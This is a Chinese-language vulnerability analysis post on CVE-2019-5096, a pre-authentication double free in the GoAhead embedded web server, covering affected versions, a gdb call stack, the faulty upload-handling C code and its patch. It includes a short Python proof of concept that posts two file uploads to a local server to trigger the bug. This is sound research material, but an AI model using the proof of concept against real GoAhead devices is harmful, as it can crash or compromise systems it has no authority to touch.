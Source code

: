```yaml
---
title: CVE-2019-5096 GoAhead Double Free 漏洞分析
date: 2020-06-30 19:34:20
tags: CVE
---
```


## 简介

GoAhead是美国Embedthis Software公司的一款嵌入式Web服务器，提供开源和企业版本，用于全球数亿台设备中。CVE-2019-5096由思科 Talos 团队的研究员发现，可以在Pre-Auth的条件下触发漏洞。

<!--more-->

### 时间线

+ 报告漏洞 2019-08-28
+ 漏洞修复 2019-11-21
+ 漏洞公开 2019-12-02

### 漏洞影响范围

+ GoAhead 5.0.1
+ GoAhead 3.6.5
+ GoAhead 4.1.1

## 复现

### PoC

```python
import requests
url = 'http://127.0.0.1:8777'
files = {
    "file1": ('filename', 'data'),
    "file2": ('filename', 'data'),
}
r = requests.post(url, files=files)
```

### 调用栈

```
...
#2  0x00007ffff77c17ea in __libc_message (do_abort=do_abort@entry=0x2,
    fmt=fmt@entry=0x7ffff78daed8 "*** Error in `%s': %s: 0x%s ***\n") at ../sysdeps/posix/libc_fatal.c:175
#3  0x00007ffff77ca37a in malloc_printerr (ar_ptr=<optimized out>, ptr=<optimized out>,
    str=0x7ffff78dafe8 "double free or corruption (out)", action=0x3) at malloc.c:5006
#4  _int_free (av=<optimized out>, p=<optimized out>, have_lock=0x0) at malloc.c:3867
#5  0x00007ffff77ce53c in __GI___libc_free (mem=<optimized out>) at malloc.c:2968
#6  0x00007ffff7b2ee1c in wfree (mem=0x611260) at src/alloc.c:292
#7  0x00007ffff7b4f1ba in freeUploadFile (up=0x6112a0) at src/upload.c:71
#8  0x00007ffff7b4f236 in websFreeUpload (wp=0x60cbd0) at src/upload.c:88
#9  0x00007ffff7b363c5 in termWebs (wp=0x60cbd0, reuse=0x0) at src/http.c:518
#10 0x00007ffff7b365de in websFree (wp=0x60cbd0) at src/http.c:561
#11 0x00007ffff7b3bc0b in checkTimeout (arg=0x60cbd0, id=0x1) at src/http.c:2362
#12 0x00007ffff7b45785 in callEvent (id=0x1) at src/runtime.c:232
#13 0x00007ffff7b459a5 in websRunEvents () at src/runtime.c:295
#14 0x00007ffff7b38e82 in websServiceEvents (finished=0x60310c <finished>) at src/http.c:1389
#15 0x0000000000401544 in main (argc=0x4, argv=0x7fffffffe4d8, envp=0x7fffffffe500) at src/goahead.c:170
...
```

## 漏洞分析

函数调用流程为

- websProcessUploadData
- initUpload
- processContentBoundary
- processUploadHeader
- processContentData

其中 `processUploadHeader` 函数会调用 `freeUploadFile` free 掉 `wp->currentFile`

```c
static void processUploadHeader(Webs *wp, char *line)
{
    ...
    freeUploadFile(wp->currentFile);
    file = wp->currentFile = walloc(sizeof(WebsUpload));
    ...
}
```

`processContentData` 函数会把上传文件加入到 `wp->files` 中

```c
static bool processContentData(Webs *wp)
{
    ...
    hashEnter(wp->files, wp->uploadVar, valueSymbol(file), 0);
    defineUploadVars(wp);
    ...
}
```

在请求执行完毕后，会进入 `termWebs` -> `websFreeUpload` 的执行流，将 `wp->files` 中的 `WebsUpload` 对象全部 free 一次。

```c
PUBLIC void websFreeUpload(Webs *wp)
{
    WebsUpload  *up;
    WebsKey     *s;

    if (wp->files >= 0) {
        for (s = hashFirst(wp->files); s; s = hashNext(wp->files, s)) {
            up = s->content.value.symbol;
            freeUploadFile(up);
            if (up == wp->currentFile) {
                wp->currentFile = 0;
            }
        }
        hashFree(wp->files);
    }
    if (wp->currentFile) {
        freeUploadFile(wp->currentFile);
        wp->currentFile = 0;
    }
    if (wp->upfd >= 0) {
        close(wp->upfd);
        wp->upfd = -1;
    }
}
```

可以看到漏洞触发点是在 `freeUploadFile` 函数，这里仅仅检查了 `up->filename` 的值。但是在上传多个文件时，之前的 `WebsUpload` 对象被 free 掉后仍然在链表中，会触发第二次 free。

```c
static void freeUploadFile(WebsUpload *up)
{
    if (up) {
        if (up->filename) {
            unlink(up->filename);
            wfree(up->filename);
        }
        wfree(up->clientFilename);
        wfree(up->contentType);
        wfree(up);
    }
}
```
### 漏洞Patch

补丁修补方式为在 `processContentData` 函数加入链表后置 `wp->currentFile` 为空。

```c
static bool processContentData(Webs *wp)
{
    ...
    hashEnter(wp->files, wp->uploadVar, valueSymbol(file), 0);
    defineUploadVars(wp);
    wp->currentFile = 0;
    ...
}
```

## 参考链接

- [Vulnerability Spotlight: Two vulnerabilities in EmbedThis GoAhead ](https://blog.talosintelligence.com/2019/12/vulnerability-spotlight-EmbedThis-GoAhead.html)
- [CVE-2019-5096：GoAhead远程代码执行漏洞分析](https://www.anquanke.com/post/id/194322)
- [CVE-2019-5096](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-5096)
